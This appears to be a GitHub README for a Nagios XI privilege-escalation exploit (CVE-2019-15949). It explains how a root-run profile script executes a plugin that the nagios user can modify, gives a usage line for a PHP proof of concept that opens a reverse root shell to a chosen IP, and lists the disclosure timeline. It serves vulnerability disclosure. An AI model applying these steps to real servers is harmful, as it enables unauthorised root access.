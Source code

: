 # nagiosxi-root-exploit

### Overview
A vulnerability exists in Nagios XI <= 5.6.5 allowing an attacker to leverage an RCE to escalate privileges to root.  
The exploit requires access to the server as the 'nagios' user, or CCM access via the web interface with perissions to manage plugins.

### Details
The `getprofile.sh` script, invoked by downloading a system profile (profile.php?cmd=download), is executed as root via a passwordless sudo entry; the script executes the ‘check_plugin’ executuable which is owned by the nagios user.
A user logged into Nagios XI with permissions to modify plugins, or the 'nagios' user on the server, can modify the ‘check_plugin’ executable and insert malicious commands exectuable as root.

### POC
A PHP POC has been developed which uploads a payload resulting in a reverse root shell.  
Usage:  
`php privesc.php --host=example.com --ssl=[true/false] --user=username --pass=password --reverseip=ip --reverseport=port`

### Discolusure
Reported to Nagios on: 29th July 2019  
Confirmed by Nagios on: 29th July 2019  
Fixed in version: 5.6.6 on: 20th August 2019  
CVE Assigned on: 6th September 2019 (CVE-2019-15949 https://nvd.nist.gov/vuln/detail/CVE-2019-15949)  

![alt text](https://i.imgur.com/fl0zwSE.png)
